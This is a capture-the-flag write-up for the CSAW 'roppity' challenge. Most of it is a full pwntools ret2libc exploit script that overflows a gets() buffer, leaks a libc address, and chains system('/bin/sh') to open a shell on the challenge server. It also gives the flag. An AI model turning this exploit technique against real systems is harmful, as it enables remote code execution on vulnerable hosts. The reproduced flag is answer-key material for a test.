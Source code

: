 # roppity

Author: [roerohan](https://github.com/roerohan)

# Requirements

- Python
- Pwntools

# Source

- [roppity](./roppity)

```
Welcome to pwn!

nc pwn.chal.csaw.io 5016
```

# Exploitation

This is a ret2libc challenge, where you have to overflow the stack using the `gets` function. Here's a script to do the same.

```py
from pwn import *

elf = ELF('./rop')
rop = ROP(elf)

local = False

host = 'pwn.chal.csaw.io'
port = 5016

if local:
    p = elf.process()
    libc = ELF('/usr/lib/libc.so.6')
else:
    p = remote(host, port)
    libc = ELF('./libc-2.27.so')


PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']

# Same as ROPgadget --binary ./rop | grep "pop rdi"
POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
RET = rop.find_gadget(['ret'])[0]

OFFSET = b'A' * (0x20 + 0x8)


log.info("puts@plt: " + hex(PUTS_PLT))
log.info('main@plt: ' + hex(MAIN_PLT))
log.info("pop rdi; ret; gadget: " + hex(POP_RDI))


def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + ' GOT @ ' + hex(FUNC_GOT))

    rop_chain = [
        POP_RDI, FUNC_GOT,
        PUTS_PLT,
        MAIN_PLT,
    ]

    rop_chain = b''.join([p64(i) for i in rop_chain])
    payload = OFFSET + rop_chain

    print(p.clean())
    print(payload)

    p.sendline(payload)

    received = p.recvline().strip()
    leak = u64(received.ljust(8, b'\x00'))
    libc.address = leak - libc.symbols[func_name]
    return hex(leak)


log.info('Leaked address: ' + get_addr('__libc_start_main'))
log.info('Libc base: ' + hex(libc.address))


BIN_SH = next(libc.search(b'/bin/sh\x00'))
SYSTEM = libc.symbols['system']
EXIT = libc.symbols['exit']


log.info('/bin/sh: ' + hex(BIN_SH))
log.info('system: ' + hex(SYSTEM))
log.info('exit: ' + hex(EXIT))


ROP_CHAIN = [
    RET,
    POP_RDI, BIN_SH,
    SYSTEM,
    EXIT,
]

ROP_CHAIN = b''.join([p64(i) for i in ROP_CHAIN])

payload = OFFSET + ROP_CHAIN

print(p.clean())
print(payload)

p.sendline(payload)

p.interactive()
```

First, you leak the address of the `__libc_start_main` function (or `puts` for that matter). Using that address, you calculate the base address of on the server. With the help of this libc address, you can find `/bin/sh`, `system` and `exit` and place them strategically on the stack to execute a ROP chain.
<br />

After the script runs, it gives you a shell on the server. Use `cat flag.txt` to view the flag.

The flag is:

```
flag{r0p_4ft3r_r0p_4ft3R_r0p}
```

